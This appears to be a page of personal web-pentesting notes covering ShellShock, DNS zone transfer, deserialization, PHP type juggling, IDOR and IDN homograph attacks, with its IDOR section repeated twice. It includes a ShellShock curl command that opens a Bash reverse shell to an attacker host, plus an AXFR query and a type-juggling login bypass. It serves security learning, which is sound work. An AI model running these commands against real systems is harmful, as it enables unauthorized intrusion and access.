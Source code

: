 ```yaml
---
title: Notes | Others
author: Zeropio
date: 2022-04-25
categories: [Notes, Web]
tags: []
permalink: /notes/web/others
---
```



# ShellShock Attack
This vulnerability in Bash allows remote code execution without confirmation. A series of random characters, () { :; }; , confuses Bash because it doesn't know what to do with them, so by default, it executes the code after it.

We can manipulate the **User-agent** to execute it, for example:
```console
> curl -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/myip/443 0>&1" http://example.com/
```

---

# Domain Zone Transfer (AXFR)
AXFR offers no authentication, so any client can ask a DNS server for a copy of the entire zone. This means that unless some kind of protection is introduced, an attacker can get a list of all hosts for a domain, which gives them a lot of potential attack vectors.

If we now one domian we can try:
```console
> dig @ip-domian domain.com axfr
```
This will list subdomain.
###### If we only have the ip we can use **/etc/hosts** to create the domains.

---

# Deserialization Attacks
**Serialization** is the process of turning some object into a data format that can be restored later. People often serialize objects in order to save them to storage, or to send as part of communications.
**Deserialization** is the reverse of that process, taking data structured from some format, and rebuilding it into an object. Today, the most popular data format for serializing data is JSON. Before that, it was XML.

---

# Type Juggling
With **Type Juggling** during the comparison of variables of different types, PHP will first convert them to a common, comparable type.

For example we can send data like this:
```console
> curl -s -X POST --data 'usuario=admin&password=1' http://[ip] | html2text
```
We will probably get an error, but if we modify the content:
```console
> curl -s -X POST --data 'usuario=admin&password[]=1' http://[ip] | html2text
```
We can log in.

---

# Insecure direct object references (IDOR)
IDOR are a type of access control vulnerability that arises when an application uses user-supplied input to access objects directly.

If we have a webpage similar to:
```
'https://insecure-website.com/customer_account?customer_number=132355'
```
We can modify the value to see the value of others users. Even perform horizontal and vertical privilege escalation to get additional privileges.

Other example if we get a file in the url:
```
'https://insecure-website.com/static/12144.txt'
```
We can modify the value to get another user's file.

# Insecure direct object references (IDOR)
IDOR are a type of access control vulnerability that arises when an application uses user-supplied input to access objects directly.

If we have a webpage similar to:
```
'https://insecure-website.com/customer_account?customer_number=132355'
```
We can modify the value to see the value of others users. Even perform horizontal and vertical privilege escalation to get additional privileges.

Other example if we get a file in the url:
```
'https://insecure-website.com/static/12144.txt'
```
We can modify the value to get another user's file.

---

# IDN homographic attack
The internationalized domain name homograph attack is a way a malicious party may deceive computer users about what remote system they are communicating with, by exploiting the fact that many different characters look alike. For example, a regular user of example.com may be lured to click a link where the Latin character "a" is replaced with the Cyrillic character "а". This kind of spoofing attack is also known as script spoofing.
